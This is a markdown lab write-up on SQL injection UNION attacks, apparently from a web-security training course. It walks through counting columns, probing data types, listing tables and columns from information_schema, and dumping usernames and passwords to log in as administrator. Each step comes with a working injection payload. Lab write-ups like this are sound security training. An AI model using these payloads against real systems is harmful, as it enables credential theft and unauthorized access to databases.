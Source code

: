 Suppose that:

- The original query returns two columns, both of which can hold string data.
- The injection point is a quoted string within the **_WHERE_** clause.
- The database contains a table called _**users**_ with the columns _**username**_ and _**password**_.

In this example, we can retrieve the contents of the users table by submitting the input:<br>
``' UNION SELECT username, password FROM users--``

In order to perform this attack, we need to know that there is a table called users with two columns called username and password. 

**<h2>Problem:</h2>**
The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

**<h2>Solution:</h2>**
- Check for the number of columns using `` order by`` attack; which gives us columns 2.
- Check the data type in each columns using UNION attack; ``' union select 'a',NULL--``
; Gives response for text for both table with query ``' union select 'a','aaa'--``
- Now check for the tables using ``' union select table_name,NULL from information_schema.tables--`` returns a **users** table. 
- Check the columns present in the **users** table using query ``'union select column_name, NULL from information_schema.columns where table_name='users'--``
- Now check for columns username and password in users table using ``' union select username,password from users--``
![alt text](/images/lab9credentials.png)
- Now login with the credentials to solve the lab.